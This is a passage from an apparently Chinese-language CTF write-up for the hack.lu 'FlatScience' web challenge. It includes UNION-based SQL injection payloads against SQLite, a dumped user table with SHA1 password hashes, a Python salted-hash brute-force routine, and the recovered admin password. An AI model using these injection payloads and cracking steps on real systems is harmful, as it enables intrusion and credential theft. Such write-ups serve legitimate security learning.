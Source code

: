 ```

```

那么，我们就可以依次回显获得数据。接下来，我们可以利用sqlite3的特性，获得数据。

```
usr=111' union select 1,name FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

获得表信息，得到信息：只有一个表 Users

获得所有表结构：
usr=111' union select 1,sql FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

表结构如下：
 CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```

最终，表内容如下：

| id   | Name   | password                                 | hint                        |
| ---- | ------ | ---------------------------------------- | --------------------------- |
| 1    | admin  | 3fab54a50e770d830c0416df817567662a9dc85c | my+fav+word+in+my+fav+paper |
| 2    | fritze | 54eae8935c90f467427f05e4ece82cf569f89507 | my+love+is…?                |
| 3    | hansi  | 34b0bb7c304949f9ff2fc101eef0f048be10d3bd | the+password+is+password    |

会发现cmd5能够解开2，3的sha1，而1的sha1无法解开。利用hint，对网站上所有的paper进行分析。导入paper中的所有单词，进行哈希爆破。

```python
def test(s):
	salt = 'Salz!'
	a = s+salt
	sha = hashlib.sha1(a).hexdigest()
	# print sha
	flag = '3fab54a50e770d830c0416df817567662a9dc85c'
	# print flag
	if flag==sha:
		print s
		return  True
	else:
		return False
```

获得密码，**ThinJerboa**

登录，得到flag

![flatscience](https://moxiaoxi.info/img/post/hacklu/flatscience.png)



## Triangle 

一个Web逆向题，没看。学长说是，Unicorn.js模拟的arm binary。





## 总结：

以前一直听说hacklu的CTF题目质量很高，但参加这次下来，感觉Web题目一般，没什么特别新的思路，还加了一些杂项的技巧，不知道其他类型的题目怎么样。